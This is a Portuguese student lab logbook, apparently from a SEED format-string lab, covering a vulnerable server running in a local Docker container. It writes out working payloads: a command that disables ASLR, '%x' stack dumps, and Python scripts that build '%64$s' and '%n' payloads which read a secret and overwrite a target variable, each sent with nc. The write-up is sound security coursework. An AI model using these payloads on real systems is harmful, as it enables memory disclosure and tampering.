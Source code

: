 # Semana #6

## Format-String

### Tarefa 0
Antes de comecar o desenvolvimento deste laboratório desligamos a randomização de endereços com o seguinte comando, para que fosse possível descobrir a localização dos endereços do programa:

```bash
$ sudo sysctl -w kernel.randomize_va_space=0
```

Compilamos o código e fizemos a instalação como indicados, aparecendo o seguinte warning:

<img src="./images/logbook7/log7t0_pt1.png">

Depois, corremos o comando `docker-compose up` para iniciar os containers e, de seguida, os comandos `docker ps` e `docksh <id>` 

<img src="./images/logbook7/log7t0_pt2.png">

iniciando assim uma shell nesse container. 


# Tarefa 1

Inicialmente, corremos `$ echo hello | nc 10.9.0.5 9090`, enviando uma mensagem benigna para os servidor e foram impressas as mensagens esperadas no terminal. 

<img src="./images/logbook7/log7t1_pt1.png">

De seguida, o objetivo era fornecer um dado input ao servidor, de tal forma que o programa crashasse ao tentar imprimi-lo na função `myprintf()`. Desta forma, guardamos num ficheiro test.txt o seguinte conteúdo: 

<img src="./images/logbook7/log7t1_pt2.png"><br>

E corremos:

```bash
$ cat test.txt | nc 10.9.0.5 9090
```

Como não observamos a mensagem `Returned properly`, concluímos que o programa crashou. Mas é de notar, como dito no enunciado, que o programa do **servidor** não crashou - na verdade crashou o programa **`format`** que corre num processo filho gerado pelo processo do servidor.

<img src="./images/logbook7/log7t1_pt3.png"><br>

Apenas fornecemos `'%s'*10` para que o programa tentasse ler endereços de memória inválidos e crashasse, tal como esperado. 


### Tarefa 2

#### A)
Foram necessários 64 `%x` para conseguirmos visualizar o conteúdo que demos como input na stack, em hexadecimal. O conteúdo do ficheiro `task2a.txt`foi:

```GGGG%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x```

Sabemos que `GGGG` corresponde a `47474747` em hexadecimal.
Corremos o seguinte comando:
```bash
$ cat task2a.txt | nc 10.9.0.5 9090
```
E pudemos verificar no output do servidor que o conteúdo do ficheiro foi impresso na stack, como esperado.

<img src="./images/logbook7/log7t2_pt1.png"><br>

#### B)

A partir do *output* do servidor, nós sabemos que o endereço da mensagem secreta é:
<img src="./images/logbook7/log7t2_b.png"><br>

Também sabemos que ao enviar `%s`, a função `printf` vai tentar ler uma string de um endereço. Na tarefa anterior, aprendemos que o numero de `%x` necessários para chegar ao inicio da stack era 64, portanto, nós podemos especificar qual é o endereço que queremos ler, adicionando um `offset` de 64 entre `%` e `s`. Assim, o nosso programa vai ler uma string do endereço escrito na 64ª posição da stack, que é o endereço da mensagem secreta. 

Para obter o valor da mensagem secreta guardada na área da heap, criámos um script de python para criar o ficheiro `task2b.txt` com o seguinte conteúdo:
```python
tmp = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

with open('task2b.txt', 'wb') as f:
  f.write(tmp)
```

Corremos o comando:
```bash
$ cat task2b.txt | nc 10.9.0.5 9090
```
para passar o contéudo do ficheiro como input para o servidor. Analisámos o *output* do servidor e concluímos que a mensagem secreta, tal como é apresentada na seguinte imagem, é: `A secret message`.
 
<img src="./images/logbook7/log7t2_b2.png"><br>



### Tarefa 3

#### A)
A partir do *output* do servidor, nós sabemos que o endereço da mensagem secreta é:
<img src="./images/logbook7/log7t3_a.png"><br>

Para mudar o valor do endereço da variável *target* que está definida no programa do servidor, criámos o seguinte script de python para criar o ficheiro `task3a.txt` com o seguinte conteúdo:

```python
tmp = (0x080e5068).to_bytes(4,byteorder='little') + ("%64$n").encode('latin-1')

with open('task3a.txt', 'wb') as f:
  f.write(tmp)
```

Tal como na tarefa anterior, nós procuramos pelo endereço da variável *target* no *output* do servidor. Desta vez, adicionámos um `%n`. Este `format specifier` escreve o tamanho do input no endereço especificado em `%n`, neste caso, no endereço `0x080e5068`.

O número de bytes escritos até ao momento é 4 devido ao endereço, por isso, este número será o número guardado no endereço da variável.

Corremos o comando:
```bash
$ cat task3a.txt | nc 10.9.0.5 9090
```
para passar o contéudo do ficheiro `task3a.txt` como input para o servidor.


Ao examinar o *output* do servidor, podemos reparar que o valor da variável *target* foi, com sucesso, alterado para `0x00000004`, como esperado.

<img src="./images/logbook7/log7t3_a2.png"><br>


#### B)

Para mudar o conteúdo para um valor específico de 0x5000, construímos o nosso script da mesma forma com algumas alterações. Criamos o seguinte script em Python para construir o nosso ficheiro, chamado badfile:

```python
tmp = (0x080e5068).to_bytes(4,byteorder='little') + ("%20476x%64$n").encode('latin-1')

with open('task3b.txt', 'wb') as f:
  f.write(tmp)
```

Sabemos que 0x5000 é 20480 em decimal, mas não podemos simplesmente escrever 20480 bytes no ficheiro, pois sabemos da tarefa anterior que o servidor aceita no máximo 1500 bytes de input.

Primeiro, escrevemos os 4 bytes para o endereço.

Depois, os restantes 20476 bytes serão preenchidos usando o especificador de formato %x com uma largura fixa. Com %[largura]x -> %20476x, o programa irá ler 20476 bytes e tentará imprimi-los.

O `format specifier` `%n` irá então armazenar o número de bytes escritos, nest caso 20480, no endereço indicado.
Assim, corremos o comando:
```bash
$ cat task3b.txt | nc 10.9.0.5 9090
```
para passar o contéudo do ficheiro `task3b.txt` como input para o servidor.

Depois de examinar o *output* do servidor, podemos ver que o valor da variável alvo (*after*) foi alterado com sucesso para 0x00005000.
<img src="./images/logbook7/log7t3_b1.png"><br>
<img src="./images/logbook7/log7t3_b2.png"><br>



